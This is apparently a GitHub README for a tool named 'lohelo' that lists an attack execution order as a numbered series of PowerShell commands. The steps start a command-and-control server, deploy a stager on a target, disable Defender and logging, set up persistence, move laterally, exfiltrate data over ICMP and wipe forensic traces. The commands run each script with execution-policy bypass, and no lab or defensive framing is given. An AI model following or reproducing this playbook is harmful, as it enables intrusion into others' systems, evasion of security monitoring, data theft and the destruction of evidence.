 # lohelo

Attack Execution Order

1️⃣ Start the C2 Server
python c2_server.py

2️⃣ Deploy stager.ps1 on Target
powershell -ExecutionPolicy Bypass -NoProfile -File stager.ps1

3️⃣ Bypass Defender & Logs
powershell -ExecutionPolicy Bypass -NoProfile -File bypass.ps1

4️⃣ Establish Persistence
powershell -ExecutionPolicy Bypass -NoProfile -File persist.ps1

5️⃣ Move Laterally
powershell -ExecutionPolicy Bypass -NoProfile -File lateral.ps1

6️⃣ Exfiltrate Data
powershell -ExecutionPolicy Bypass -NoProfile -File exfil_icmp.ps1

7️⃣ Cover Tracks
powershell -ExecutionPolicy Bypass -NoProfile -File antiforensics.ps1
